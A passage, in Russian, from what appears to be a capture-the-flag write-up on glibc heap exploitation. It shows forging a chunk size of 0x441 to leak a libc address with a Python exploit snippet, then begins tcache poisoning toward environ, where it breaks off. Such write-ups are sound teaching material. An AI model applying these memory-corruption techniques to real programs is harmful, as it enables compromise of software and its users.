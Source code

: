 Но есть одно маленькое НО. Нам нужно, чтоб в после нашего фейкового чанка лежали настоящие, иначе ничего работать не будет (кому интересно, можно сурсы либсы почитать, ошибка 1 - конец чанка дальше чем начало top чанка, ошибка 2 - в конце чанка нет валидного чанка, ошибка 3 - в конце следующего валидного чанка нет валидного чанка).

Чтоб всей этой мороки не было, создаём много много чанков и выставляем размер так, чтоб конец попадал на начало нашего валидного 0x40 чанка, за котором есть ещё один.

Проблема 2 - нам нужно переписать размер следующего лежащего чанка, для этого нам нужнно выделиться перед каким либо из наших чанков.

Решение:

- Выделяем 2 чанка

```
chunk 1 | chunk 2
```

- Очищаем первый

```
chunk 1 (free) | chunk 2
```

- Выделяем третий, тк чанк был в tcache, он выделится в том же месте, что и первый

```
переписываем длину второго чанка
                ↓
            chunk 3 | chunk 2
```

Дальше создаём (я делал 17) дополнительные чанки и очищаем наш чанк, размер которого мы изменили (можно в gdb потыкаться, чтоб красивенько размер выбрать, у меня 0x440 + 1 PREV_IN_USE)

```python
allocate() # 1 <- to free and rewrite
allocate() # 2 <- libc leak - чанк, у которого мы размер переписываем
for _ in range(17): # 3 - 19
    allocate()

free(1)
allocate(0x38 * b"A" + p16(0x441)) # 20 - изменяем размер на 0x440 + 1 PREV_IN_USE
free(2)
libc_bytes_leak = read(2)
libc_base = u64(libc_bytes_leak[:8]) - LIBC_BASE_TO_ARENA_OFFSET
logger.info("Libc leak 0x%x", libc_base)
```

## TCache Poisoning

Тк tcache берёт адрес следующего очищенного чанка из fp предыдущего, этот адрес можно переписать (предварительно заманглив, конечно).

Зная адрес libc, по оффсету можно узнать адрес глобальной переменной environ, по адресу которой находится адрес стека.
